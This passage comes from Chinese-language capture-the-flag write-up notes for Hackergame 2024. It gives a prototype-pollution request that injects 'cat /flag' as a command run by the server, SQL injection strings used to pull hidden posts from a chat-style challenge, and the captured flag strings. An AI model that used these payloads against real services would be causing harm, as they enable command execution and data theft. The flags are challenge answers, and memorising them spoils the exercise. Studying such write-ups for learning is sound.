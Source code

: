      curl -X POST https://chal03-qt8nol2k.hack-challenge.lug.ustc.edu.cn:8443/set \

     -H "Content-Type: application/json" \

     -d '{"key":"__proto__.getflag","value":"cat /flag"}'

     ```



     成功后，服务器的`Object.prototype`将包含`getflag`命令。



 执行注入的命令获取flag



     访问以下URL：



     ```

     https://chal03-qt8nol2k.hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=getflag

     ```



     服务器将执行`cat /flag`命令，并返回flag内容。

flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_dabcbb565a}

![image.png](./HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 17.png)

# PaoluGPT

1

' OR contents LIKE '%flag%' --

![image.png](./HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 18.png)

flag{zU1_xiA0_de_11m_Pa0lule!!!_c2ecac9c0b}

找到上面文章id后继续构造

' OR (id!='bffd8d8f-367b-4ee7-88c7-de324c03fcf0' and contents LIKE '%flag%') --

![image.png](./HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 19.png)

flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_fe5b26d3aa}



# 强大的正则表达式

## Easy

找到资料，有限状态机，给o1生成
